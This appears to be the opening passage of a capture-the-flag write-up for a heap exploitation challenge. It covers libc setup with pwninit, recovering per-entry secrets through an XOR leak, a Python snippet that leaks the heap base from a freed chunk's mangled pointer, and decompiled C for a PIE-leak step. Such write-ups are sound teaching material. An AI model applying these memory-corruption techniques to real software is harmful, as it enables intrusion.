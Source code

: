 First, I had to extract the libc and linker from the Docker container. I just pulled the ubuntu:24.04 image (image used in Dockerfile) for linux/amd64 and transferred the required files. Then used pwninit.

## Obtaining secret values

For some reason, to edit, show or delete chunks, the program requires that we know a secret value for each entry. This can be quite easily obtained, since if the secret is wrong, the program prints us the XOR between the secret and our input. Entering 0 will print us the correct value.

## Heap leak

This is done quite easily: simply allocate a chunk, free it, read its contents, take the FD and shift it to the left by 12 bits (pointer mangling):

```python
################ Heap leak ################
create(0x30, b'A')

secrets[0] = get_secret(0)

delete(0)

fd_leak = show(0).ljust(8, b'\x00')
heap_base = unpack(fd_leak) << 12

assert heap_base > 0x100000000000, 'corrupted leak'
```


## PIE leak

The secret function looks like this:

```c
unsigned __int64 secret()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

